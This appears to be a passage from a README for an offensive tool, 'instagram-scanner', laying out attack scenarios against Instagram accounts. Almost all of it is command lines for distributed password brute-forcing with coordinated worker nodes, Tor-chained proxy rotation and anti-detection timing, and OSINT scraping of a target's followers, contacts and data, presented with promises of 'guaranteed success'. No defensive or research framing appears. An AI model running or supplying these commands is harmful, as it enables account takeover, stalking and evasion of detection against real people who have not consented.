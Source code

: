 ### Scenario 2: Distributed Network Attack

Coordinate an attack across multiple nodes with encrypted communications:

```bash
# 1. Generate encryption keys for secure coordination
instagram-scanner crypto --generate-key

# 2. Start coordination server (on main attack system)
instagram-scanner distributed --coordinator --max-nodes 5 --coordinator-port 9001 --task-type bruteforce

# 3. Connect worker nodes (on separate systems)
instagram-scanner distributed --node --coordinator-host 192.168.1.100 --coordinator-port 9001 --node-id "alpha" 

# 4. Launch synchronized attack with shared intelligence
instagram-scanner bruteforce -U target_account -w massive_wordlist.txt -n 50 -t
```

### Scenario 3: Advanced Tor-Chained Anonymity

Execute a fully anonymous attack with layered circuits and anti-detection:

```bash
# 1. Configure deep Tor circuit with multiple layers
instagram-scanner stealth --circuit-layers 5 --randomize-timing --enable-all

# 2. Execute combined attack vectors with full proxy rotation
instagram-scanner bruteforce -U target_account -w custom_wordlist.txt -t -P socks5://127.0.0.1:9050 -n 15 -d 3000
```

### Scenario 4: Maximum Force Penetration

Utilize all available techniques for guaranteed success:

```bash
# 1. Enable all stealth protocols
instagram-scanner stealth --enable-all

# 2. Configure distributed attack coordination
instagram-scanner distributed --coordinator --max-nodes 10

# 3. Deploy full spectrum OSINT intelligence gathering
instagram-scanner osint -T target_account -f -F -p -c -g -C intelligence_data --max-followers 2000 --max-following 2000

# 4. Execute military-grade bruteforce operation
instagram-scanner bruteforce -U target_account -w advanced_wordlist.txt -n 100 -d 1000 -t -v
```

## ⚡ OPERATIONAL SECURITY
